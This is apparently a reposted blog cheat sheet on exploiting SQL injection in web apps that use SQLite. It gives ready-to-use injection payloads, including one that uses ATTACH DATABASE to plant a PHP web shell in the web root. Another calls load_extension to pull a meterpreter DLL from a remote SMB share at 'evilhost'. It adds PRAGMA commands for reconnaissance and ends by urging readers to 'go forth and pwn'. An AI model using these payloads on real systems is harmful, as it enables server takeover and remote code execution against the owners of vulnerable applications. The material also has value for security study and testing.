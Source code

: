 title: "SQLite3 Injection Cheat Sheet"
date: 2013-06-17 23:08:46
tags:
id: 267
comment: false
categories:
  - 默认分类
---

**Introduction**
<div></div>
<div>A few months ago I found an SQL injection vulnerability in an enterprisey webapp's help system. Turns out this was stored in a separate database - in SQLite. I had a Google around and could find very little information about exploiting SQLI with SQLite as the backend.. so I went on a hunt, and found some neat tricks. This is almost entirely applicable only to webapps using SQLite - other implementations (in Adobe, Android, Firefox etc) largely don't support the tricks below.</div>
<div></div>
<div></div>
<div>**Cheat Sheet**</div>
<div></div>
<div>
<table border="1" cellspacing="0">
<tbody>
<tr>
<td> Comments</td>
<td> --</td>
</tr>
<tr>
<td> IF Statements</td>
<td> CASE</td>
</tr>
<tr>
<td> Concatenation</td>
<td> ||</td>
</tr>
<tr>
<td> Substring</td>
<td> substr(x,y,z)</td>
</tr>
<tr>
<td> Length</td>
<td> length(stuff)</td>
</tr>
<tr>
<td> Generate single quote</td>
<td> select substr(quote(hex(0)),1,1);</td>
</tr>
<tr>
<td> Generate double quote</td>
<td> select cast(X'22' as text);</td>
</tr>
<tr>
<td> Generate double quote (method 2)</td>
<td> .. VALUES (“&lt;?xml version=“||””””||1||</td>
</tr>
<tr>
<td> Space-saving double quote generation</td>
<td> select replace("&lt;?xml version=$1.0$&gt;","$",(select cast(X'22' as text)));</td>
</tr>
</tbody>
</table>
</div>
<div>For some reason, 4x double quotes turns into a single double quote. Quirky, but it works.</div>
<div></div>
<div></div>
<div>**Getting Shell Trick 1 - ATTACH DATABASE**</div>
<div></div>
<div>
<div>What it says on the tin - lets you attach another database for your querying pleasure. Attach another known db on the filesystem that contains interesting stuff - e.g. a configuration database. Better yet - if the designated file doesn't exist, it will be created. You can create this file anywhere on the filesystem that you have write access to. PHP example:</div>
</div>
<div></div>
<div>**?id=bob’; ATTACH DATABASE ‘<span style="color: #ff0000;">/var/www/lol.php</span>’ AS lol; CREATE TABLE lol.pwn (dataz text); INSERT INTO lol.pwn (dataz) VALUES (‘<span style="color: #ff0000;">&lt;? system($_GET[‘cmd’]); ?&gt;</span>’;--**</div>
<div></div>
<div>Then of course you can just visit lol.php?cmd=id and enjoy code exec! This requires stacked queries to be a goer.</div>
<div></div>
<div></div>
<div>**Getting Shell Trick 2 - SELECT load_extension**</div>
<div></div>
<div>
<div>Takes two arguments:</div>
<div>

*   A library (.dll for Windows, .so for NIX)
*   An entry point (SQLITE_EXTENSION_INIT1 by default)
This is great because</div>
<div>

1.  This technique doesn't require stacked queries
2.  The obvious - you can load a DLL right off the bat (meterpreter.dll? :)
</div>
</div>
<div>Unfortunately, this component of SQLite is disabled in the libraries by default. SQLite devs saw the exploitability of this and turned it off. However, some custom libraries have it enabled - for example, one of the more popular Windows ODBC drivers. To make this even better, this particular injection works with UNC paths - so you can remotely load a nasty library over SMB (provided the target server can speak SMB to the Internets). Example:</div>
<div></div>
<div>**?name=123 UNION SELECT 1,load_extension('\\evilhost\evilshare\meterpreter.dll','DllMain');--**</div>
<div></div>
<div>This works wonderfully :)</div>
<div></div>
<div></div>
<div>**Other neat bits**</div>
<div></div>
<div>If you have direct DB access, you can use **PRAGMA** commands to find out interesting information:</div>
<div>

*   **PRAGMA database_list; **-- Shows info on the attached databases, including location on the FS. e.g. **0|main|/home/vt/haxing/sqlite/how.db**
*   **PRAGMA temp_store_directory = '/filepath'; **-- Supposedly sets directory for temp files, but deprecated. This would’ve been pretty sweet with the recent Android journal file permissions bug.
</div>
<div></div>
<div>**Conclusion / Closing Remarks**</div>
<div></div>
<div>SQLite is used in all sorts of crazy places, including Airbus, Adobe, Solaris, browsers, extensively on mobile platforms, etc. There is a lot of potential for further research in these areas (especially mobile) so go forth and pwn!</div>
<div></div>
<div></div>
<div>[https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet](https://sites.google.com/site/0x7674/home/sqlite3injectioncheatsheet)</div>